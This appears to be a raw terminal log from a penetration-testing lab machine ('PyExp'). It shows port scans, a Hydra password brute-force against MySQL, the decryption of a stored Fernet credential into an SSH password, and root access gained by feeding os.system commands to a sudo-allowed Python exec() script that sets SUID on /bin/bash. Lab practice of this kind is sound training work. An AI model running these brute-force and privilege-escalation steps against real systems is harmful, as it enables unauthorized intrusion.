 root@kali:/OSCPv3/offsec/PyExp# nmap -Pn -sT -n 192.168.58.118  -p- --min-rate 1000 --max-retries 2 --reason
Starting Nmap 7.70 ( https://nmap.org ) at 2021-10-11 21:02 CDT
Warning: 192.168.58.118 giving up on port because retransmission cap hit (2).
Stats: 0:01:11 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 96.61% done; ETC: 21:04 (0:00:02 remaining)
Nmap scan report for 192.168.58.118
Host is up, received user-set (0.11s latency).
Not shown: 64759 closed ports, 774 filtered ports
Reason: 64759 conn-refused and 774 no-responses
PORT     STATE SERVICE REASON
1337/tcp open  waste   syn-ack
3306/tcp open  mysql   syn-ack

Nmap done: 1 IP address (1 host up) scanned in 77.94 seconds



root@kali:/OSCPv3/offsec/PyExp# nmap -Pn -sT -sV -n 192.168.58.118 -p 1337,3306 --min-rate 1000  --reason
Starting Nmap 7.70 ( https://nmap.org ) at 2021-10-11 21:07 CDT
Nmap scan report for 192.168.58.118
Host is up, received user-set (0.11s latency).

PORT     STATE SERVICE REASON  VERSION
1337/tcp open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
3306/tcp open  mysql   syn-ack MySQL 5.5.5-10.3.23-MariaDB-0+deb10u1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.48 seconds
root@kali:/OSCPv3/offsec/PyExp# 



[VERBOSE] using default db 'mysql'
[ATTEMPT] target 192.168.58.118 - login "root" - pass "princess101" - 9988 of 0 [child 14344399] (0/2)
[ATTEMPT] target 192.168.58.118 - login "root" - pass "prettywoman" - 9989 of 0 [child 14344399] (0/0)
[ATTEMPT] target 192.168.58.118 - login "root" - pass "piggies" - 9990 of 0 [child 14344399] (0/1)
[ATTEMPT] target 192.168.58.118 - login "root" - pass "packers1" - 9991 of 0 [child 14344399] (0/3)
[VERBOSE] using default db 'mysql'
[VERBOSE] using default db 'mysql'
[VERBOSE] using default db 'mysql'
[VERBOSE] using default db 'mysql'
[3306][mysql] host: 192.168.58.118   login: root   password: prettywoman
[STATUS] attack finished for 192.168.58.118 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2021-10-11 23:21:17
root@kali:/OSCPv3/offsec/PyExp/cve-2016-6662# hydra -f -T 120 -t 120 -l root -P /usr/share/wordlists/rockyou.txt 192.168.58.118 mysql -v -V


root@kali:/OSCPv3/offsec/PyExp# mysql -h 192.168.58.118 -u root -p 
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 33512
Server version: 10.3.23-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2017, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| data               |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.12 sec)

MariaDB [(none)]> 

MariaDB [(none)]> use data;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [data]> show tables;
+----------------+
| Tables_in_data |
+----------------+
| fernet         |
+----------------+
1 row in set (0.12 sec)

MariaDB [data]> select * from fernet;
+--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+
| cred                                                                                                                     | keyy                                         |
+--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+
| gAAAAABfMbX0bqWJTTdHKUYYG9U5Y6JGCpgEiLqmYIVlWB7t8gvsuayfhLOO_cHnJQF1_ibv14si1MbL7Dgt9Odk8mKHAXLhyHZplax0v02MMzh_z_eI7ys= | UJ5_V_b-TWKKyzlErA96f-9aEnQEfdjFbRKt8ULjdV0= |
+--------------------------------------------------------------------------------------------------------------------------+----------------------------------------------+
1 row in set (0.12 sec)





https://asecuritysite.com/encryption/ferdecode
lucy:wJ9`"Lemdv9[FEw-


root@kali:/OSCPv3/offsec/PyExp/cve-2016-6662# ssh lucy@192.168.58.118 -p 1337
lucy@192.168.58.118's password: 
Linux pyexp 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
lucy@pyexp:~$ whoami
lucy


lucy@pyexp:~$ sudo -l
Matching Defaults entries for lucy on pyexp:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User lucy may run the following commands on pyexp:
    (root) NOPASSWD: /usr/bin/python2 /opt/exp.py
lucy@pyexp:~$ ls -la /opt/exp.py 
-rw-r--r-- 1 root root 49 Aug 10  2020 /opt/exp.py
lucy@pyexp:~$ more /opt/exp.py 
uinput = raw_input('how are you?')
exec(uinput)

https://www.geeksforgeeks.org/exec-in-python/


lucy@pyexp:~$ sudo /usr/bin/python2 /opt/exp.py 
how are you?import os;os.system('whoami')
root
lucy@pyexp:~$ sudo /usr/bin/python2 /opt/exp.py 
how are you?import os;os.system('chmod u+s /bin/bash')
lucy@pyexp:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash
lucy@pyexp:~$ /bin/bash -p
bash-5.0# whoami
root
bash-5.0# 


bash-5.0# cat user.txt 
Your flag is in another file...
bash-5.0# pwd
/home/lucy
bash-5.0# cat local.txt 
7616b643bd382514207a72e6f3ed256c
bash-5.0#


bash-5.0# cd /root
bash-5.0# ls
proof.txt  root.txt
bash-5.0# cat root.txt 
Your flag is in another file...
bash-5.0# cat proof.txt 
230f0021d33aca8bec4af5764baf0cc6
bash-5.0#

